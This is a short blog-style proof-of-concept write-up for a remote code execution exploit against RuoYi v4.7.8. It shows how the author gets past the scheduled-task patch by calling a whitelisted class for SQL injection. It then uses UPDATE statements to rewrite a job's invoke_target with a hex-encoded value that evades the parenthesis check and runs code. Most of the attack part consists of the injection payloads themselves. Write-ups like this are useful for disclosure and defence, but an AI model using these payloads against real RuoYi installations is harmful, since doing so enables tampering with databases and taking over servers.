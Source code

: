 ```yaml
---
title: "RuoYi-v4.7.8-RCE-POC"
author: ["4shen0ne"]
draft: false
---
```


The system had vulnerabilities in the scheduled tasks before, and now I
bypass it.


## Sqli {#sqli}

In the patch, a strategy using blacklisting and whitelisting was
employed.

{{< figure src="/ox-hugo/_20240529_145528screenshot.png" >}}

However, I managed to bypass it by using a whitelist class and
successfully carried out an SQL injection.

```java
genTableServiceImpl.createTable('SELECT 1 FROM 'Hack By 1ue';')
```

{{< figure src="/ox-hugo/_20240529_145552screenshot.png" >}}

```java
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')
```

{{< figure src="/ox-hugo/_20240529_145610screenshot.png" >}}

success to change the data of table `job_id`


## RCE {#rce}

`JobInvokeUtil` does not allow parentheses in the string during
invocation, so I modified the parameter value of a specific job in the
original job table to hexadecimal (bypassing defense detection),
enabling another scheduled task for Remote Code Execution (RCE).

{{< figure src="/ox-hugo/_20240529_145632screenshot.png" >}}

```java
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a61... WHERE job_id = 2;')
```

{{< figure src="/ox-hugo/_20240529_145642screenshot.png" >}}

the job's invoke_target changed

{{< figure src="/ox-hugo/_20240529_145656screenshot.png" >}}

and then execute!
